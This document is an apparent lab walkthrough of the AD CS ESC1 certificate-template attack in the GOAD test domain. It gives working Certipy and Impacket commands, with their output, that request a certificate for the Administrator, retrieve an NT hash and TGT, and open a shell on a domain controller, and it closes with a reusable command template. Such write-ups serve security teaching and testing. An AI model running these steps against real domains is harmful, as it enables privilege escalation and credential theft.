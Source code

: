 it is possible to specify an alternate user in a certificate request. If a certificate template permits the inclusion of a `subjectAltName` (`SAN`) that differs from the user submitting the certificate signing request (CSR), this functionality can be exploited. Specifically, an attacker can request a certificate on behalf of any user in the domain by including their `subjectAltName` in the request.

The following prerequisites must apply:
- Enrollment Rights: `DOMAIN\Domain Users`.
- Requires Manager Approval: `False`.
- Authorized Signature Required: `0`.
- Client Authentication: `True` or Extended Key Usage `Client Authentication`.
- Enrollee Supplies Subject: `True`

Take note of the Template Name and Certificate Authority:

![[Pasted image 20241005173153.png]]

### Certificate Request

Use the `-upn` to specify the alternative subject. In this case the Administrator:

```bash
garffff@garfffff:~/GOAD/adcs/esc1$ certipy req -u khal.drogo@essos.local -p 'horse' -template ESC1 -ca ESSOS-CA -upn administrator@essos.local -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

### Certificate Authentication

We can retrieve the NTLMv1 hash for the targeted user:

```bash
garffff@garffff:~/GOAD/adcs/esc1$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

### Using the TGT

We can also authenticate to a domain controller using the TGT saved. This requires the DC to be resolved using DNS:

```bash
garffff@garffff:~/GOAD/adcs/esc1$ ls administrator.*
administrator.ccache  administrator.pfx
garffff@garffff:~/GOAD/adcs/esc1$ export KRB5CCNAME=administrator.ccache
garffff@garffff:~/GOAD/adcs/esc1$ wmiexec.py -k -no-pass meereen.essos.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

### Summary

```bash
certipy req -u <user>@<domain> -p '<password>' -template <template> -ca <ca> -upn <target_user>@<domain -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
```


